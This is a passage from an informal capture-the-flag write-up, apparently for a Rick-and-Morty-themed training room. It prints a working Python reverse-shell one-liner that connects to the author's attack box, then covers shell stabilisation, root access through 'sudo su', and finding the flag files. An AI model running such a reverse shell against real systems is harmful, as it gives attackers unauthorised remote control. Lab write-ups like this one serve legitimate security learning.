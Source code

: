 this is for python(1) and I also must change IP/PORTS so that they correspond to my attack box so:
						
	python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.115.1",9988));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

THE MOMENT OF TRUTH ----> WE 'RE IN !!!

Let 's make the shell stable and see what we can get off this filesystem!
		
	python3 -c 'import pty;pty.spawn("/bin/bash")'
---
	export TERM=xterm
---

ctrl+z (to background session)

---
	stty raw -echo; fg
		
So far so good. Lemme check out some places here, see if there smth around to be found. 
		
----> it seems I can ;t go some places.... 

----> I wonder if I could just privesc
		
	sudo su
 ... well I didn 't expect that.. 
		----> we re root
		
OK, let 's try going places again!
		
	ls ./* | grep *.txt
in order to fetch all .txt files and voille
		----> 3rd.txt <---- I 'd expect to find the 2nd tbh :P this is weird, yet...:
		
----> 3rd INGRGEDIENT -> 

	cat 3rd.txt -> fleeb juice

So where would this 2nd ingredient be?

check other directories/ users

	-> cd home 
	-> ls 
	-> cd Rick 
	-> 'second ingredients' 
	-> cat 'second ingredients'
	-> 1 jerry tear

########################		!!! ROOM IS COMPLETE !!!		############################### 			

